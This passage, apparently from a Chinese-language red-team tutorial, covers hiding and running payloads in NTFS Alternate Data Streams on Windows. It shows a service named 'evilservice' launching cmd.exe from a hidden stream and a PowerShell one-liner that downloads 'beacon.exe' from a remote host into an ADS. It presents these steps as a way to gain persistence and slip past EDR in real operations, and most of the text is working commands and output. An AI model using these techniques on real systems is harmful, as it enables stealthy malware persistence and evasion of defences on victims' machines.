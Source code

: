 查看服务是否创建：

```php
C:\Users\root\Desktop\testfile>sc qc ADS
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: ADS
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Users\root\Desktop\testfileMyFile.txt:cmd.exe" /c echo works > "C:\Users\root\Desktop\testfileworks.txt"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : evilservice
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

执行隐藏的指令
-------

```php
sc start ADS
```

网络加载
----

大多数情况下，我们需要执行的程序都是通过托管在服务器上，然后通过网络加载进行使用的。我们可以使用`Invoke-WebRequest`来进行网络加载：

托管服务器开启web服务：

```php
python -m http.server 8080
```

网络加载方式如下：

```php
$tempFile = "$($PWD.Path)\temp_download"; Invoke-WebRequest -Uri "http://192.168.56.79:8080/beacon.exe" -OutFile $tempFile; Get-Content -Path $tempFile -Raw | Set-Content -Path "$($PWD.Path)\MyFile.txt" -Stream test1; Remove-Item $tempFile -Force
```

优点
--

经过测试，ADS可以用来拷贝程序备份，然后执行，在面对EDR时EDR会删除备份文件而对源文件无影响，达到持久化的目的。

其他
==

api0cradle在2018年总结了一系列第三方软件（LOLBins）来利用ADS的程序，可以灵活在实战时应用，涉及到了以下三种利用方式：

1. Add content to ADS
2. Extract content from ADS
3. Executing from ADS
